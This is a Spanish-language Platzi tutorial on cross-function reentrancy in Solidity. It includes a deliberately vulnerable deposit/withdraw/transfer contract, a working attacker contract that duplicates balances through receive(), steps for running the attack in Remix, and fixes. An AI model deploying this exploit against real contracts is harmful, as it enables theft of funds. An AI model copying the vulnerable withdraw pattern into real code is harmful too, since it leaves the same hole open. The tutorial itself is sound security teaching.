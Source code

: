 # Reentrancy cruzado

Contribución creada como parte del [Curso de Introducción a Seguridad de Smart Contracts](https://platzi.com/clases/2721-seguridad-smart-contracts/45717-reentrancy-cruzado/) de **Platzi**. 

--

La vulnerabilidad de los contratos inteligentes conocida como **Reetrancy** no solo permite llamar a una misma función una y otra vez. Existe una variante similar, pero que **provoca el llamado a una segunda función**. Se lo conoce con el nombre de **Reetrancy Cruzado**.

## Reentrada cruzada de transacciones
Para que este tipo de vulnerabilidad se exponga, el contrato atacado tener una segunda función que permita manipular ETH de forma no contemplada por la regla de negocio principal del mismo.

Veamos de qué se trata esta vulnerabilidad y cómo prevenirla a través de un simple ejemplo:

### Explicación del contrato vulnerado
Utilizaremos de ejemplo un contrato inteligente que permite depositar, retirar y transferir ETH a un tercero. Cada dirección solo puede retirar sus propios fondos o transferirlos a otra cuenta, pero **la vulnerabilidad permitirá que un atacante duplique sus fondos en otra cuenta** para que esta también pueda hacer retiros de ETH que no le corresponden.

### Contratos involucrados
Comencemos con el contrato principal que contiene la lógica de negocios para el depósito, retiro y transferencia de Ether.

```js
// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.7.0 <0.9.0;

contract ReentrancyCross {
    mapping (address => uint) private balances;

    // Función para depositar ETH
    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    // Función para retirar todo el ETH de una cuenta
    function withdraw() public {
        uint amount = balances[msg.sender];
        (bool result, ) = msg.sender.call{value: amount}(""); 
        require(result);
        balances[msg.sender] = 0;
    }

    // Función para enviar ETH de una cuenta a otra, la vulnerabilidad la utiliza para duplicar balances
    function transfer(address to, uint amount) public {
        if (balances[msg.sender] >= amount) {
            balances[to] += amount;
            balances[msg.sender] -= amount;
        }
    }

    // Función para ver el balance de una cuenta
    function getBalance(address addr) public view returns (uint) {
        return balances[addr];
    }

    // Función para ver el balance total del contrato
    function getTotalBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

Por su parte, el contrato atacante:
```js
contract Ataque {
    // Dirección del owner de contrato donde se duplicará el balance
    address payable ownerAddr;

    ReentrancyCross public reentrancyCross;

    constructor(address _reentrancyCrossAddress) {
        // Instanciamos el contrato ReentrancyCross
        reentrancyCross = ReentrancyCross(_reentrancyCrossAddress);
        ownerAddr = payable(msg.sender);
    }

    // Función que recibe los ETH luego de un retiro
    receive() external payable {
        // Llamando a transfer(), duplicamos el balance en la cuenta del atacante
        reentrancyCross.transfer(ownerAddr, msg.value);
    }

    // Función que ocasiona el llamado a una segunda función luego del retiro
    function attack() external payable {
        require(msg.value >= 1 ether);
        reentrancyCross.deposit{value: 1 ether}();
        reentrancyCross.withdraw();
    }

    // Función para ver el balance total del contrato luego de explotar la vulnerabilidad
    function getTotalBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

### Procedimiento para vulnerar el contrato
* 1. Desplegar el contrato `ReentrancyCross`.
* 2. Depositar 1 ETH con dos cuentas. Hasta este punto, el contrato tendría 2 ETH.
* 3. Desplegar contrato `Attack` que recibe en el constructor la dirección de `ReentrancyCross`.
* 4. Hacer el llamado a `Attack.attack` enviando 1 ETH con una tercera cuenta para tener acceso a realizar una extracción. El contrato atacante recuperará inmediatamente ese ETH mientras que también provocará que el balance se duplique en otra dirección para que esta pueda retirar un ETH que no le pertenece.

> **CONSEJO:** Te animo a que tu mismo despliegues los contratos en entornos como [Remix](https://remix.ethereum.org/) para que explores la vulnerabilidad y veas que, efectivamente, el contrato atacante duplica el balance en otra cuenta.

### ¿Qué sucedió aquí?
`Attack` depositó un ETH e inmediatamente lo retiró con `ReentrancyCross.withdraw` que realiza una `call()` al propio contrato atacante. El contrato atacante recibe ese llamado en `receive()`, guarda el ETH, y ejecuta la función `transfer()` del contrato vulnerado. Dicha función, provoca que el balance del contrato atacante sea transferido a otra dirección. En este ejemplo, se utiliza la dirección que desplegó el contrato `Attack`.

De esta manera, el owner que desplegó el contrato `Attack`, tendrá en su balance personal de `ReentrancyCross` 1 ETH que no le pertenece y que puede retirar sin problemas.

Habiéndose duplicado el balance, el owner de `Attack` se queda con 1 ETH mientras que el propio contrato `Attack` posee el otro ETH fácilmente retirable por parte del owner.

La vulnerabilidad del tipo **Reetrancy Cruzado** es más discreta, ya que esta no vacia por completo los fondos de una contrato como **Reetrancy**, permite realizar pequeños retiros tal vez insospechados si el contrato tiene miles de ETH.

### ¿Por qué sucedió?
Al realizarse la transferencia antes de que el balance del contrato atacante se ponga en 0, permite hacer una transferencia de este balance a otra cuenta. Observa que el balance de la cuenta del contrato atacante se setea a 0 recién en la última línea de código de la función `withdraw()`.

```js
function withdraw() public {
    uint amount = balances[msg.sender];
    (bool result, ) = msg.sender.call{value: amount}(""); 
    require(result);
    balances[msg.sender] = 0;
}
```
Exactamente, el mismo problema de **Reetrancy**, al no setear el balance a 0 en el momento correcto, permite realizar una transferencia del balance a otra cuenta.

### ¿Cómo se puede evitar?
Veremos dos medidas que puedes tomar para evitar este enorme problema de seguridad.

1. El primero es **mover el seteo del balance a 0 antes del llamado a la función externa**.
```js
function withdraw() public {
    uint amount = balances[msg.sender];
    balances[msg.sender] = 0;
    (bool result, ) = msg.sender.call{value: amount}(""); 
    require(result);
}
```
Corresponde setear a 0 el balance de la cuenta que retira sus fondos antes de realizar el llamado externo. En el caso de que el llamado falle por otro motivo, no te preocupes, ya que el `require()` hará un `revert()` y los balances volverán a como estaban antes del fallo.

2. También puedes **setear el uso del gas en la llamada externa**.
```js
(bool sent, ) = msg.sender.call{value: monto, gas: 10000}("");
```
Siempre es aconsejable configurar el gas disponible para un llamado externo

## Conclusiones
Hemos visto hasta aquí que el depósito, retiro o transferencia de valor entre cuentas o contratos **es un tema que no debe tomarse a la ligera**. Muchas variables que pueden escaparse y provocar desastres económicos, como muchos que ya han sucedido en la industria. Como desarrolladores Web3, **tenemos la responsabilidad de cuidar el ecosistema y que sea un lugar confiable para depositar nuestro dinero**.

---
**Contribución creada por:** *Kevin Fiorentino* **en colaboración con** *Platzi*.
